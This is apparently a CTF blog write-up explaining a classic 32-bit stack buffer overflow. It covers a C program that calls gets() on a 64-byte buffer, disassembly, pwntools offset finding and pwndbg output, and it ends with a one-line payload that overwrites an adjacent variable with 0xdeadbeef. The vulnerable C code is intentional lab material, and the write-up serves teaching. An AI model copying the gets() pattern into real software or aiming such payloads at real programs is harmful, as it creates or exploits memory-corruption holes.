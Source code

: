 ```yaml
---
layout: post
title: Level 02 Solution
updated: 2018-08-04 21:00
tags: [ctf, howto, binary exploit, tech]
---
```


## The task

If you take a look at the source file, the task is to somehow get the 'trash' variable to equal the value `0xdeadbeef`.
This is a little hard, since we aren't reading into the 'trash' variable. So how do we approach this problem. Think about it for a while, then we'll move further.
Here's the source code:

{% highlight c %}
int main() {
    volatile int trash;
    char buffer[64];
    trash = 0;
    gets(buffer);
    if (trash == 0xdeadbeef) {
        char ans[] = {
            <redacted>
        };
        puts(ans);
    }
}
{% endhighlight %}

Ofcourse some lines have been redacted from the source. They're really nothing, just some basic obfuscation in order to prevent people from directly getting the flag using 'strings' or some similar tool.
In order to tackle this problem we need to understand how programs work when executing. We just need the details of how memory is affected when a program is executed.
Let's disassemble the code as it will become easier to follow along with what I'm saying.

{% highlight shell%}
0x080488af <+10>:	push   ebp
0x080488b0 <+11>:	mov    ebp,esp
0x080488b2 <+13>:	push   ecx
0x080488b3 <+14>:	sub    esp,0x64
{% endhighlight %}

These lines are important to understand what actually takes place in memory when a program runs.
"push ebp" actually saves the stack frame of the calling function. So basically what we're doing when running the program is calling the "main()" method. Inorder to know where to continue executing, the "ebp" of the calling function is saved.
"mov ebp, esp" is used to set a new stack frame base for the callee function. This is better explained along with the next line which is "sub esp, 0x64" ignoring the previous line. This sequence is what we call a Standard Entry Sequence. It is followed everytime a function is called.
We do a "sub" in order to reserve space on the stack for the local variables of the function. Together these memory locations constitue of a 'stack frame' also known as a 'Call Stack'. If you can see from the diagram below, we notice that the local variables are stored in contiguous memory locations. What if we could exploit this feature?

![Call Stack Layout By R. S. Shaw](https://upload.wikimedia.org/wikipedia/commons/d/d3/Call_stack_layout.svg)

But how do we exploit this? We need a way to overwrite the data of those memory locations. Narrowing it down further, the only way we can attack this(not really) is by providing user input, which is done using the `gets()` method. This is currently the only so called 'attack surface' for now. Let's take a look at how this function works using the man pages.

{% highlight shell %}
$ man gets
{% endhighlight %}

The description looks promising 'Never use this function'. But why? Scrolling further down, we can see why we should not use this function, ever. Basically there's no limit to how much gets reads, even if the buffer we read into is of a fixed size. And in our case it's 64 bytes, so we can bascially read beyond 64 bytes of data. So if we have an input large enough, we should be able to overwrite the data of the 'trash' variable.
For the sake of completeness, let's assume we have no idea how far the 'trash' variable is located on the stack. We can find this offset by using a special kind of string. I use [pwntools] to genereate this string, though you can do this manually. Let's do it.

{% highlight python %}
>>> from pwn import *
>>> cyclic(128)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
{% endhighlight %}

Now let's open our binary in the debugger and set a breakpoint at the comparision with `0xdeadbeef`. Then run it and input our special string.

{% highlight shell %}
pwndbg> break *0x080488cf
Breakpoint 1 at 0x80488cf
pwndbg> r
Starting program: /home/dylan/Documents/ASM/challenges/binary/02/main32
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab

Breakpoint 1, 0x080488cf in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 EAX  0x61616171 ('qaaa')
 EBX  0x80d9000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
 ECX  0x80d9340 (_IO_2_1_stdin_) ◂— 0xfbad2288
 EDX  0x80da87c (_IO_stdfile_0_lock) ◂— 0x0
 EDI  0x80481a8 (_init) ◂— push   ebx
 ESI  0x80d9000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
 EBP  0xffffce98 ◂— 0x61616175 ('uaaa')
 ESP  0xffffce30 ◂— 0x0
 EIP  0x80488cf (main+42) ◂— cmp    eax, 0xdeadbeef
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x80488cf <main+42>     cmp    eax, 0xdeadbeef
   0x80488d4 <main+47>     jne    main+195 <0x8048968>
    ↓
   0x8048968 <main+195>    mov    eax, 0
   0x804896d <main+200>    mov    ecx, dword ptr [ebp - 4]
   0x8048970 <main+203>    leave
   0x8048971 <main+204>    lea    esp, [ecx - 4]
   0x8048974 <main+207>    ret

   0x8048975               nop
   0x8048977               nop
   0x8048979               nop
   0x804897b               nop
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ esp  0xffffce30 ◂— 0x0
01:0004│      0xffffce34 ◂— 0x40000
02:0008│      0xffffce38 ◂— 0x3
03:000c│      0xffffce3c ◂— 0x2
04:0010│      0xffffce40 ◂— 0x0
05:0014│      0xffffce44 ◂— 0x1000000
06:0018│      0xffffce48 ◂— 0x61616161 ('aaaa')
07:001c│      0xffffce4c ◂— 0x61616162 ('baaa')
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0  80488cf main+42
Breakpoint *0x080488cf
```

If you're interested in knowing which debugger I use, it's pwndbg, you can get it [here](https://github.com/pwndbg/pwndbg#readme).
If we take a look at the "eax" value we see that it has changed from the original which was 0. So let's find the offset, again using pwn tools.

```python
>>> cyclic_find('qaaa')
64
{% endhighlight %}

We see that the 'trash' variable is located at an offset of 64 bytes, which is just after the size of our buffer array into which we read our input. So we essentially created what is called a 'stack overflow'.
Since the value can't fit in that fixed size buffer, it overflows into the next memory location, thus overwriting the data, which is what we wan't.
With the offset in hand it's only a matter of overwriting 'trash' with `0xdeadbeef` which is fairly simple. Let's get to it then...

{% highlight shell %}
$ python -c "print 'A'*64 + '\xef\xbe\xad\xde'" | ./main32
<flag_here>
{% endhighlight %}

And there you have it. I've only showed you how to exploit the 32-bit version of the binary. The 64-bit one can be exploited in the same way with only the offset changing. This is because address spaces are 64-bits. So the offset will be larger compared to a 32-bit binary.
Rest of the procedure will be the same. For more information on buffer overflow attacks please do check out the links below.

### Sites
[Phrack](http://phrack.org/issues/49/14.html)
[Functions and stack frames](https://en.m.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames)
[Call Stacks](https://en.wikipedia.org/wiki/Call_stack)

### Files
[Level 02](https://github.com/dsouzadyn/ctfing/tree/master/binary/02)
